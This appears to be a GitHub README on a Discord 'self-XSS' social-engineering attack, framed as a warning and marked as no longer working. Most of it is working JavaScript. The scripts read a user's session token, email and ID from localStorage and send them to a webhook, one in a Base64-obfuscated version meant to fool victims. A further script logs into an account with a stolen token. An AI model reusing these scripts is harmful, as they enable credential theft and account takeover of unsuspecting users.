 # Discord Self-XSS

**[[NO LONGER WORKING]](#update)**

Although Discord repeatedly prints massive warnings on the console, telling people about the potential dangers that pasted unknown code snippets could lead to, most users are unwary, and casually run scripts without understanding what they do.

By convincing a user to paste just a couple lines of code, an attacker could access `localStorage` to copy the Session Token without the user even noticing, using something like the following script:

```JS
/* Without any discernible change, an `iframe`
is created in order to access `localStorage`
through its `contentWindow` property. The users's
token is then copied and `slice` is used to remove
its quotation marks (for aesthetic purposes) */
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
```

This script could be quickly adapted to act as a warning for uncautious users, the simplest way being to *literally* `alert()` them, like [this](/alert-warning.js):
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
alert(`Your Discord token is:\n${token}\n\nNever paste any code you don't understand in the console!`);
```

It could just as easily be modified into something malicious, as in this [example](/simple-webhook.js):
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
  
/* With a simple HTTP Request, your
token could be sent to the attacker
using a Discord Webhook. This does
not cause a CORS error as webhooks
use the same domain as the Discord
website, and are thus treated like
any other request */
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    content: token,
    embeds: null
  })
});
```

Even with a modification as simple as encoding all mentions of a "token" and the Webhook URL *(which could catch their eye)* to Base64 and decoding them using `atob()` could suffice to trick a naive user, as done in this snippet:
```JS
fetch(atob("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTIzNDU2Nzg5MDEyMzQ1Njc4L2FiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6QUJDREVGR0hJSkxLTE1OT1BRUlNUVVZXWFlaMTIzNDU2Nzg5MGFiY2Rl"),{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({"content":document.body.appendChild(document.createElement("iframe")).contentWindow[atob("bG9jYWxTdG9yYWdl")][atob("dG9rZW4=")].slice(1,-1),"embeds":null})});
```

Any attempt at obfuscation could be suspicious to some users, but the great majority wouldn't bat an eye before pasting a code-block, even with escaped characters, generated by something like obfuscator.io.

While accessing `localStorage`, an attacker might as well make use of other cached information *(although i just realized all one would really need is the token)* and create a nice embed for his webhook, as I did with the following [script](/embed-webhook.js):
```JS
let localStorage = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage;
fetch("YOUR_WEBHOOK_URL", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    content: null,
    embeds: [{
      title: "Successfully Grabbed Token!",
      color: 2067276,
      fields: [{
        name: "User",
        value: `<@!${localStorage.user_id_cache.slice(1,-1)}>`,
        inline: true
      }, {
        name: "Email",
        value: localStorage.email_cache.slice(1,-1),
        inline: true
      }, {
        name: "Token",
        value: localStorage.token.slice(1, -1).replaceAll("-", "-\n")
      }],
      footer: {
        text: "Hacker Pepe v0.0.0",
        icon_url: "https://imgur.com/5Ri5eok.png"
      }
    }],
    username: "Hacker Pepe",
    avatar_url: "https://imgur.com/5Ri5eok.png"
  })
});
```

Regardless of whether or not an attacker sends himself another user's token using a great embed such as the one produced by the above script, allowing someone else access to `localStorage` can let them extract a lot of information about the user, and should never be done.

![Example Embed](/embed.png)

And just like that, an internet stranger could know your token. This is concerning, as by simply opening a new [incognito] tab, opening Discord, and pasting this almost identical [script](/token-login.js) *(ironic...)*, they could set their token to yours and access your account.
```JS
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token=`"YOUR_TOKEN"`;
location.reload();
```

So please never paste any script into your console unless you understand what it does and fully trust the person who sent it to you.

### Update
Just a couple of hours after publishing this repository, the method used by these scripts stopped working, as the `token` value in `localStorage` is no longer persistent *(which is probably a good idea, and leads me to think that this may have simply been a bug)*, and gets removed rather quickly as the page is loading. Although the timing was certainly a coincidence *(I wish I had that much clout)*, I'm glad this was done, as this change could greatly reduce the likelihood of a Self-XSS attack working on Discord. I'll make sure to update the repo if I can figure out some other simple ways to grab a user's token without requiring perfect timing, and welcome anyone to open a Pull Request if you figure out a way to do so.

